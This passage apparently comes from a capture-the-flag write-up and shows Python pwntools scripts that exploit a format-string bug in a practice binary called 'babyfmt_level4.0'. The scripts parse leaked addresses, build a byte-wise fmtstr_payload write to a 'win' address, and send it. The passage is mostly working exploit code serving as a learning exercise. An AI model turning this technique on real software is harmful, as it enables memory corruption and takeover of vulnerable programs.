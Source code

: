 ```python

io = start()

#### get win addr ####
leaks = get_win_address_and_value(io.recvuntil(b'offset.'))
desired_val = int(leaks[0], 16)
win_addr    = int(leaks[1], 16)

info(f'Desired Value: {desired_val:#x}')
info(f'Win Address  : {win_addr:#x}')

#### set win value(0x5a) at win_addr ####
offset = 27
padlen = 1

writes = {win_addr: desired_val}
payload = fmtstr_payload(offset=27, writes=writes, numbwritten=padlen, write_size='byte')
payload = randoms(padlen).encode()+payload
info(f'Final payload: {payload}')

io.sendafter(b'data!\n', payload)

io.interactive()
```


##### get_flag_FmtStr.py

This one make more easier than previous 2 approach. Settling needed **offset**, **padlen** and **helper method** values. and than just fired up. Rest is handled by pwntools <3.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './babyfmt_level4.0')
#context.log_level = 'debug'
context.log_level = 'info'



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b *func+445
continue
'''.format(**locals())

# -- Exploit goes here --

def get_win_address_and_value(text):
    match = re.findall(rb"0x[0-9a-fA-F]+", text)
    if match:
        return match
    return None

#### send helper ####
def send_fmt(payload):
    io.sendafter(b'data!\n', payload)
```